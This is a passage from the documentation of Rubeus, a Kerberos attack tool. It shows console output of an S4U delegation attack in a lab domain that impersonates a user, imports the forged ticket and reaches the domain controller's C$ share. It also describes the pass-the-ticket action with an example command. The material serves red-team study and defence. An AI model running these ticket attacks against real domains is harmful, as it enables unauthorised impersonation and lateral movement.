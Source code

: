           doIE+jCCBPagAwIBBaEDAg...(snip)...

    [*] Action: S4U

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
    [*]   Impersonating user 'dfm.a' to target SPN 'LDAP/primary.testlab.local'
    [*]   Final ticket will be for the alternate service 'cifs'
    [*] Sending S4U2self request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1437 bytes
    [*] Received 1574 bytes
    [+] S4U2self success!
    [*] Building S4U2proxy request for service: 'LDAP/primary.testlab.local'
    [*] Sending S4U2proxy request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 2618 bytes
    [*] Received 1798 bytes
    [+] S4U2proxy success!
    [*] Substituting alternative service name 'cifs'
    [*] base64(ticket.kirbi):

          doIGujCCBragAwIBBaE...(snip)...

    [*] Action: Import Ticket
    [+] Ticket successfully imported!

    C:\Temp\tickets>dir \\primary.testlab.local\C$
     Volume in drive \\primary.testlab.local\C$ has no label.
     Volume Serial Number is A48B-4D68

     Directory of \\primary.testlab.local\C$

    03/05/2017  05:36 PM    <DIR>          inetpub
    08/22/2013  08:52 AM    <DIR>          PerfLogs
    04/15/2017  06:25 PM    <DIR>          profiles
    08/28/2018  12:51 PM    <DIR>          Program Files
    08/28/2018  12:51 PM    <DIR>          Program Files (x86)
    08/23/2018  06:47 PM    <DIR>          Temp
    08/23/2018  04:52 PM    <DIR>          Users
    08/23/2018  06:48 PM    <DIR>          Windows
                   8 Dir(s)  40,679,706,624 bytes free


## ptt

The **ptt** action will submit a /ticket (TGT or service ticket) for the current logon session through the LsaCallAuthenticationPackage() API with a KERB_SUBMIT_TKT_REQUEST message, or (if elevated) to the logon session specified by /luid:X. Like other /ticket:X parameters, the value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk.

    c:\Rubeus>Rubeus.exe ptt /ticket:doIFmj...(snip)...

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

